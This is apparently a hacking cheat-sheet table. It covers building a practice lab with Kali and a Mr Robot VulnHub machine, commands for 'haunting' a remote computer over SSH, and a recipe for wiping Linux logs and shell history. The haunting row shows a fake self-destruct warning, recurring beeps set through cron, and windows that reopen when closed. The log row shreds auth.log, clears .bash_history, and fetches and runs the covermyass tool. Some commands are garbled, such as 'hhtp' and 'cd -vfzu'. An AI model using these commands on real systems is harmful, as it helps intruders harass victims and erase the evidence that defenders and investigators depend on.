 <tr>
<th>Build a Hacking Lab</th>
<td>Safe and secure environment<br /></td>
<td>

> Hacking Machine - Kali <br />
> Vulnerable Webapp machine - VULNHUB :
 
 [Mr Robot VULNHUB OVA](https://www.vulnhub.com/entry/mr-robot-1,151/) <br />
> Modify network settings <br />
> DHCP server <br />
> cd /Program Files/Oracle/VirtualBox (In windoows)<br />
>  >vboxmanage dhcpserver add --network=networkname --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable<br />
<br /></td>
</tr>


<tr>
<th>Haunt a Computer Using SSH</th>
<td>haunt via ssh<br /></td>
<td>
$ export DISPLAY=:0.0 (let DISPLAY of remote be open)<br />
$ xterm <br />
$ sudo modprobe pcspkrc (play sound in speaker) <br />
$ say "404 : hacked !" <br />
$ espeak "time is running :)" <br />
$ sudo apt install beep <br />
$ beep -f 4000 -D 500 -l 100 -r 10 (beep warning) <br />
$ crontab -l <br />
$ crontab -e <br />
 uncomment  * * * * * beep .... <br />
$ sudo xterm -maximize -e sudo tcpdump <br />
$ for i in {1..10}; do sudo xterm -maximize -e sudo tcpdump; done <br />
(create a `$tcpdump` window reappearing 10 times on being closed.) <br />
$ cat warning.txt (warnings) <br />
xterm -maximized -fullscreen -fa 'Monospace' -fs 19.31 -e whiptail --title "CRITICAL: ACTION CANNOT BE UNDONE" --msgbox "UNAUTHORIZED LOGIN! DATA SAFEGUARD SYSTEM WILL DESTROY THIS TERMINAL IN 10 SECONDS, STAY 30 FEET CLEAR TO AVOID BLAST" --topleft 23 79 <br /><br />
$ for i in {1..10}; do firefox -new-window "hhtp://www.saikia.one/" ; done <br />
<br /></td>
</tr>

<tr>
<th>Clear the Logs & History on Linux Systems to Delete All Traces</th>
<td>clear logs and history<br /></td>
<td>

```bash

$ find / -perm -222 -type d 2>/dev/user (all dir with write permission)
$ mkdir /dev/shm/.secret
$ ls /dev/shm
$ cd /dev/shm/.secret/
$ nano logs.txt
$ rm -rf /dev/shm/.secret
$ cd /var/log/ (all log files)
$ sudo rm auth.log
$ wget https://raw.githubusercontent.com/sundowndev/covermyass/master/covermyass
$ chmod +x covermyass
$ ./covermyass
$ shred --help (delete file data permanently which cannot be recovered)
$ shred -vfzu auth.log ( shred over rm )
$ sudo rm kernel.log ( or edit )
$ cd -vfzu /home/username/.bash_history
$ >.bash_history (it will clear the file)
```